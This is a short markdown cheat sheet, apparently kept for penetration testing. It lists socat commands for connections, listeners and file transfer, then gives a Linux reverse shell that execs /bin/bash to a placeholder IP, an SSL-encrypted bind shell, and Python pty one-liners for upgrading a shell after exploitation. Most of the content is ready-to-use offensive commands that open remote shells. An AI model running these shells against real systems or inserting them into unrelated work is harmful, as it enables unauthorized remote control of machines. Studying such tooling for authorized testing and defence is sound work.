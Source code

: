 ## Socat Fun
Connect to port with socat:
```bash
socat - TCP4:<IP>:<PORT>
```
Create listener with socat:
```bash
socat TCP-LISTEN:<PORT> STDOUT
```
### File Transfer with socat
File sender:
```bash
socat TCP4-LISTEN:<PORT>,fork file:<FILENAME.xyz>
```
File receiver:
```
socat TCP4:<IP>:<PORT> file:<FILENAME>,create
```

### Reverse Shell on Linux with socat
Listener:
```
socat -d -d TCP4-LISTEN:<PORT> STDOUT
```
Shell:
```
socat TCP4:<IP>:<PORT> EXEC:/bin/bash
```

### encrypted bind shell with socat
```bash
# create (self signed) SSL certificate:
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
# combine key and cetificate to pem file
cat bind_shell.key bind_shell.crt > bind_shell.pem
# create encrypted listener
socat OPENSSL-LISTEN:<PORT>,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
```
connect to encrypted bind shell:
```
socat - OPENSSL:<IP>:<PORT>,verify=0
```


## Linux Post Exploitation
### Create tty console with python
```bash
python -c 'import pty; pty.spawn("/bin/sh")'
python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/zsh")'
```
```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/zsh")'
```
